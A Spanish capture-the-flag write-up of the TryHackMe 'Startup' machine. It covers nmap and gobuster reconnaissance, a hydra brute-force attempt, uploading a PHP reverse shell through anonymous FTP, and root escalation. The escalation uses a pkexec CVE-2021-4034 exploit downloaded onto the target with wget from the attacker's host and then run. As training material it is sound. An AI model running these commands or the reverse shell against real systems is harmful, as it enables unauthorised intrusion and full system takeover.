# Startup

## Información General

<h3>Dificultad:  </h3>

<h3> Sistema operativo: Linux </h3> 

<h3> Vulnerabilidad explotada: Reverse shell y el binario pkexec </h3>

<h3> Fecha de resolución: 30/06/2025 </h3>

<h3>Enlace de la mv: <a href="https://tryhackme.com/room/startup" target="_blank">Startup</a></h3>

### *Leer el documentro en Ingles:* <a href="startup_english.md">Startup</a>

## Reconocimiento

TryHackme nos proporciona la ip de la máquina objetivo **ip_objetivo**

Voy a establecer en el fichero **/etc/hosts** la **ip de la mv objetivo**, la voy a llamar **Nombre que le quieres dar**

<p align="center"> 

</p>

### Ping

Dependiendo del resultado podemos deducir si es una máquina linux o window, por ejemplo:

```
ping -c 1 <ip de la maquina objetivo>
```

 **El ttl es 63, por tanto es Linux**

 ### Escaneo de puertos abiertos

#### Escaneo de puerto TCP

El comando que uso con nmap es:

```
sudo nmap -p- --open -sS -sC -sV --min-rate 2000 -n -vvv -Pn startup
```

<p align="center"> 

</p>

<div align="center">

| Open port | Service | Version                                         |
| --------- | ------- | ----------------------------------------------- |
| 21        | ftp     | syn-ack ttl 63 vsftpd 3.0.3                     |
| 22        | ssh     | syn-ack ttl 63 OpenSSH 7.2p2 Ubuntu 4ubuntu2.10 |
| 80        | http    | yn-ack ttl 63 Apache httpd 2.4.18               |

</div>

#### Escaneo de puerto UDP

```
nmap -sU --top-ports 200 --min-rate=5000 -Pn startup
```

<p align="center"> 

</p>

Todo los puertos están cerados.

A continuación, vamos a intentar detectar alguna vulnerabilidad con nmap con el siguiente comando:
## Exploración

```
http://startup/
```

<p align="center"> 

</p>

```
¡Aquí no hay picante! Disculpen mientras desarrollamos nuestro sitio. Queremos que sea la forma más elegante y práctica de comprar pimientos. Además, necesitamos un desarrollador web. Por cierto, si eres desarrollador web, contáctanos. Si no, no te preocupes. ¡Estaremos online en breve! — Equipo de Desarrollo
```
### Fuzzing web

```
gobuster dir -u http://ip_obejtivo/ -w /usr/share/wordlists/dirbuster/directory-list-lowercase-2.3-medium.txt 
```

<p align="center"> 

</p>

```
http://startup/files/
```

<p align="center"> 

</p>

Lo guardo en una carpeta e investigo los archivos.

```
cat notice.txt
```

```
Quienquiera que esté dejando estos malditos memes de Among Us en este sitio, no tiene gracia. ¡La gente que descargue documentos de nuestra web pensará que somos un chiste! Ahora no sé quién es, pero Maya parece bastante sospechosa.
```

Maya me resulta de lo más curioso, y tenemos el puerto ssh abierto... **Al final no dió resultado**

### Hydra

```
hydra -l maya -P /usr/share/wordlists/rockyou.txt ftp://startup 
```

<p align="center"> 

</p>

**Pero no consigo nada**

### Estenografía

Usaremos alguna herramienta de estenografía a ver si conseguimos algo.

```
steghide extract -sf important.jpg 
```

<p align="center"> 

</p>

**nada**

Visualizamos la imagen

<p align="center"> 

</p>

## FTP

Cuando realizo el escaneo de **nmap** me doy cuenta que en el servidor ftp el usuario **anonymous** esta activo, siempre cuando está el usuario **anonymous** la contraseña va vacía.

```
ftp anonymous@startup
ls -la
```

<p align="center"> 

</p>

Me percato que hay un directorio oculto, lo descargo

```
put .test.log
cat .test.log
```

<p align="center"> 

</p>

**Nada interesante.** 
## Explotación

Me doy cuenta que la carpeta **ftp** tiene todos los permisos, y dentro de ella podemos conseguir un archivo malicioso **reverse-shell** y obtener acceso.

```
locate reverse-shell
```

<p align="center"> 

</p>

```
cp /usr/share/webshells/php/php-reverse-shell.php reverse.php
```

<p align="center"> 

</p>

Uso **visual code** para modificar el archivo esta parte en concreto:

<p align="center"> 

</p>

Lo subimos al servicio ftp:

```
put reverse.php
```

<p align="center"> 

</p>

## Explotación Posterior

### Tengo que conseguir una conexión más estable

#### TTY

```
script /dev/null -c bash
```

**control z**

```
stty raw -echo; fg
reset xterm
export TERM=xterm
export SHELL=bash
```

Luego, encontramos la primera respuesta de la primera pregunta de tryhackme

```
ls
cat recipe.txt 
```

<p align="center"> 

</p>

```
Alguien me preguntó cuál era el ingrediente principal de nuestra sopa de especias de hoy. Pensé que no podía mantenerlo en secreto para siempre y le dije que era el amor
```

Ya tenemos la primera pregunta resuelta **love**

Investigo para encontrar la red flag del usuario lennie pero...

<p align="center"> 

</p>

Cuando accedo a la carpeta de usuario, resuelta que para acceder a la carpeta del usuario hay que ser **lennie**, o **root**...

### Escalada de Privilegios

#### Primer comando:

```
sudo -l
```

Nos pide la contraseña, y nada.
#### Segundo comando:

```
find / -perm -4000 2>/dev/null
```

<p align="center"> 

</p>

Voy a intentar escalar privilegio con el binario **pkexec**

Siempre cuando tenemos la oportunidad de escalar privilegio con **pkexec** buscamos en google lo siguiente:

```
github pkexec privilege escalation
```

<p align="center"> 

</p>

Para descargarlo con **wget** solo nos bastaría irnos <a href="https://github.com/NxPnch/pkexec-exploit" target="_blank">aqui</a> y copiamos la url

<p align="center"> 

</p>

```
wget https://raw.githubusercontent.com/NxPnch/pkexec-exploit/refs/heads/main/CVE-2021-4034.py
```

Luego le cambio el nombre para que sea más facil

<p align="center"> 

</p>

comparto el archivo con este comando 

```
python -m http.server 80
```

Luego situado en la carpeta **/tmp** me traigo el archivo con el siguiente comando:

```
wget http://ipMaquinaAtacante/exploit.py
```

<p align="center"> 

</p>

```
chmod +x exploit.py
./exploit.py
whoami
```

<p align="center"> 

</p>

Para conseguir la primera bandera:

```
cd /home/lennie
cat user.txt
```

<p align="center"> 

</p>

Para conseguir la segunda bandera:

```
cd /root
cat root
```

<p align="center"> 

</p>

## Conclusión

En esta máquina aprendí lo siguiente, fijarme en los pequeños detalles, sobre todo en los **permisos de las carpeta**, cuando estuve metido en el servidor ftp y observe que la carpeta **ftp** tenía todos los permisos, en ese momento me vino una idea, de crear un archivo malicioso **reverse shell** y acceder a la terminal. Luego, en la escalada de privilegio me resulto bastante fácil porque cuando vi el binario **pkexec** ya lleve acabo un exploit que tengo preparado ya de otras prácticas. Cuando llevas ya, unas cuantas máquinas ya resuelta, se nota!!. A seguir explotando máquinas.